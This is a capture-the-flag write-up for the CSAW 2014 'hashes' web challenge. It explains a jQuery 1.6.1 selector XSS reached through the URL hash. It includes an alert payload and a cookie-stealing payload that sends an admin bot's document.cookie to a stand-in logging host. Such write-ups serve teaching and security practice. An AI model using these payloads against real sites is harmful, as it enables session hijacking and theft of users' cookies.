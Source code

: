 # CSAW CTF 2014: hashes

**Category:** Web
**Points:** 300
**Description:**

> location, location, location
>
> Chal is very very stable. If you were scanning the site while I was doing dev work your requests are probably being dropped.
>
> <http://54.86.199.163:7878/>
>
> Written by ColdHeat

## Write-up

The linked page uses an old version of the jQuery library (v1.6.1), [which enables an XSS vulnerability when e.g. `$('#' + userContent)` is called](http://bugs.jquery.com/ticket/9521) ([CVE-2011-4969](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2011-4969)). The page also contains this script:

```js
$(window).bind( 'hashchange', function(e) {
  $('.image').hide()
  tag = window.location.hash
  $(tag).show()
});
tag = window.location.hash
$(tag).show()
```

This makes it possible to inject arbitrary JavaScript simply by changing the hash in the URL. For example, [`#<img src=/ onerror=alert(1)>`](http://54.86.199.163:7878/) displays an alert box.

The page also features a form that can be used to submit image URLs that will then be visited by a bot. Assuming the bot has special admin privileges on this website, and possibly an interesting cookie, let’s try submitting this URL:

```
http://54.86.199.163:7878/#<img src=/ onerror=location='https://your-site.example.com/log?c='+document.cookie>
```

This redirects the bot to a page under our control, passing along the cookie value. The `log` script is a simple server-side script written in your language of choice that simply writes the `c` URL parameter value to a file, or stores it in a database.

A few moments after submitting the above URL, the bot indeed visits our page, and the logger script logs the cookie:

```
win="flag{these_browser_bots_are_annoying}"
```

The flag is `these_browser_bots_are_annoying`.

## Other write-ups and resources

* <http://zoczus.blogspot.com/2014/09/csaw-ctf-web300-writeup.html>
* <http://tasteless.eu/2014/09/csaw-2014-quals-hashes-web300/>
* <http://blog.squareroots.de/en/2014/09/csaw14-hashes/>

